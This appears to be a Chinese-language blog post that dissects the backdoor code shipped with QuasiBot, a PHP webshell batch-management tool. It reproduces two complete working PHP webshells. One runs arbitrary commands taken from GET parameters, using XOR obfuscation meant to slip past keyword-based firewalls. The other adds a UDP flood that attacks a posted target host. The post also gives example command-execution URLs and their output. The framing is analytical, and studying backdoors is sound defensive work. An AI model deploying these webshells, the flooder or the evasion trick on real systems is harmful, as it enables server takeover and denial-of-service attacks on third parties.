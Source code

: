 ```yaml
---
layout: post
title: "批量 Webshell 管理工具 QuasiBot 之后门代码分析"
tags: [web,secrity]
---
```


### 一、前言

最近在想着写一款webshell批量管理工具，发现目前有一款开源的，由php编写的管理平台- `QuasiBot` 。

项目地址：[https://github.com/Smaash/quasibot](https://github.com/Smaash/quasibot)

QuasiBot是一款php编写的webshell管理工具，可以对webshell进行远程批量管理。这个工具超越于普通的webshell管理是因为其还拥有安全扫描、漏洞利用测试等功能，可以利用大量的webshell进行高效的测试工作。

在本地使用QuasiBot的时候，发现它的内置后门代码非常不错，所以便有了此文。下面针对QuasiBot的两种后门代码进行剖析： `非DDoS` 版 和 `DDoS` 版。

### 二、分析

#### 1. 非DDoS版

首先给出``非DDoS``版本的后门代码：

{% highlight php%}
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
    @$_GET['___'](); 
}
?>
{% endhighlight %}

格式化一下，显得比较清晰：

{% highlight php %}
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";
    $_=($_^"<").($_^">").($_^"/");
    ${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
    @$_GET['___'](); 
}
?>
{% endhighlight %}

首先来分析一下代码结果，QuasiBot的后门代码十分简单，由一个``if...elseif...``构成。

可以看到 `elseif($_GET['___'])` 直接运行从Get请求过来的参数 `___` 的函数。例如这里后门地址为： `http://www.virtual.com/ma.php` ，那么构造如下请求就会让后门代码去执行 `phpinfo()` 函数来获取系统的相关信息。

    http://www.virtual.com/ma.php?___=phpinfo

然后再看第一个 `if($_GET['_'])` 部分，当有参数 `__` 传入时进入条件：

{% highlight php %}
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";
    $_=($_^"<").($_^">").($_^"/");
    ${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
}
...
?>
{% endhighlight %}

根据代码可以看出，QuasiBot将通过后门执行的输出都放到 `response` 的注释 `<!-- ... -->` 里去了，这里有一定的隐藏效果。注意这里 `print "<!--".$_="{:|";` 这里对 $_ 变量进行了赋值，然后是通过字符的异或运算连接起一个 `"GET"` 字符串：

    $_=($_^"<").($_^">").($_^"/");

`$_^"<"` 会将 $_ 变量的第一个字符的ascii码与 "<" 的ascii码 进行异或，也就是 `123` ("{"的ascii码) 与 `60` ("<"的ascii码)进行异或：

    123^60 ==> 71 ('G')

得到ascii码 `71` 也就是字符 `"G"` ，通过相同方法构造出 `"E"` 和 `"T"` ，然后将其连接构成字符串 `"GET"` 。

然后根据php中的一个变量引用特性，以 `${'_GET'}["__"]` 作为参数调用函数 `${'_GET'}["_"]()` 。

这里的函数执行涉及到了php中 "动态函数调用"  和 "花括号{}使用" 的trcik。

[《常用PHP中花括号使用规则详解》](http://www.cnblogs.com/jayleke/archive/2011/11/08/2241609.html)这篇文章比较详细的讲了在php中 `{}` 使用时需要注意的地方。

给出一个简单易懂的例子说明一下 `动态函数调用` ，看下面这段代码 `demo.php` ：

{% highlight php %}
<?php
$func = "demo";
function demo() {
    echo "Demo on!"
}

$func();
?>
{% endhighlight %}

这里为了方便，直接在终端使用php执行该脚本文件，执行 `php demo.php` 得到输出 `Demo on!` 。

看了这个demo.php再结合 `{}` 的使用就很容易理解后门中的这段代码： `${'_GET'}["__"](${'_GET'}["_"])` 。

写得明显点就是： `$_GET["_"]($_GET["__"])` 。

简单明了的QuasiBot非DDoS后门代码：

{% highlight php %}
<?php
if($_GET['_']) {
    print "<!--{:|";
    $_GET["_"]($_GET["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
    @$_GET['___'](); 
}
?>
{% endhighlight %}

例如在win下要执行 `system('dir')` ，后门url为：http://www.virtual.com/ma.php，那么请求：http://www.virtual.com/ma.php?_=system&__=dir

在返回页面的源码里，得到如下内容：

    <!--{:| 驱动器 D 中的卷没有标签。
     卷的序列号是 2EE6-3EE0

     D:\PhpStudy\WWW 的目录

    2014/12/03  21:05    <DIR>          .
    2014/12/03  21:05    <DIR>          ..
    2014/12/03  21:05    <DIR>          discuz
    2014/11/10  22:43    <DIR>          Documentation
    2014/11/22  02:13               431 function.php
    2014/12/04  17:37               226 ma.php
    2014/11/19  22:38    <DIR>          mybb
    2014/11/20  12:53    <DIR>          mybb1
    2014/10/21  17:11    <DIR>          phpMyAdmin
    2014/11/25  23:52    <DIR>          phpMyRecipes
    2014/11/25  14:59    <DIR>          phpok
    2014/11/15  11:36    <DIR>          piwigo
    2014/11/14  14:04    <DIR>          qibomenhu
    2014/11/26  08:55    <DIR>          quasibot
    2014/11/27  11:50    <DIR>          rocboss
    2014/11/21  00:25    <DIR>          sqli
    2014/11/14  15:59    <DIR>          thinksns
    2014/11/10  22:43    <DIR>          Tools
    2014/11/10  22:44    <DIR>          upload
    2014/12/03  19:36               256 upload.php
    2014/11/22  12:54    <DIR>          wordpress
                   3 个文件            913 字节
                  18 个目录 35,217,747,968 可用字节
    {:|7d9f82db8d7d8b1ed3fda323040e671a{:|WINNT{:|-->

命令成功执行，其他比较细节的分析这里就不在多说了，有兴趣的可以自行总结。

#### 2. DDoS版

DDoS版后门代码如下（代码有点长）：

{% highlight php %}
<?php
if($_GET['_']) {
print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { @$_GET['___'](); } elseif(isset($_POST['target'])&&isset($_POST['time'])){$fn0=0;$pm1=$_POST['time'];$yu2=time();$az3=$yu2+$pm1;$jd4=$_POST['target'];$kb5=gethostbyname($jd4);for($pt6=0;$pt6<65553;$pt6++){$yf7.='X';}while(1){$fn0++;if(time()>$az3){break;}$yw8=rand(1,65553);$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);if($vl9){fwrite($vl9,$yf7);fclose($vl9);}}}elseif($_POST['kill']=='1'){exit(0);}
?>
{% endhighlight %}

格式化一下：

{% highlight php %}
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) {
    @$_GET['___']();
} elseif(isset($_POST['target'])&&isset($_POST['time'])) { 
    $fn0=0;
    $pm1=$_POST['time'];
    $yu2=time();
    $az3=$yu2+$pm1;
    $jd4=$_POST['target'];
    $kb5=gethostbyname($jd4);
    for($pt6=0;$pt6<65553;$pt6++) {
        $yf7.='X';
    }
    while(1) {
        $fn0++;
        if(time()>$az3) {
            break;
        }
        $yw8=rand(1,65553);
        $vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
        if($vl9) {
            fwrite($vl9,$yf7);
            fclose($vl9);
        }
    }
} elseif($_POST['kill']=='1') {
    exit(0);
}
?>
{% endhighlight %}

前面部分的参数判断这里就不讲解了，请参照 `非DDoS版` 的分析。直接看DDoS代码部分，这里通过 `$_POST['target']` 来获取目标， `$_POST['time']` 为攻击持续的时间（这里以秒为单位）。 

接下来就是一系列的准备工作，构造 `65553` 字节的超长数据通过 `udp` 的方式向目标随机端口打流量（为哈要随机端口，没懂）。

构造 `65553` 字节的数据：

    for($pt6=0;$pt6<65553;$pt6++) {
        $yf7.='X';
    }

随机生成端口号（最大不应该是65535？）：

    $yw8=rand(1,65553);

创建socket并发送数据：

    $vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
    if($vl9) {
        fwrite($vl9,$yf7);
        fclose($vl9);
    }

至此 `QuasiBot` 两种模式的后面简单剖析完毕。值得学习的是该后门对php特性的运用，整个后门代码（ `非DDoS版` ）没有出现任何较敏感的关键字，能绕过大多数通过关键字检测的waf（未验证，目测。不要拍砖）。
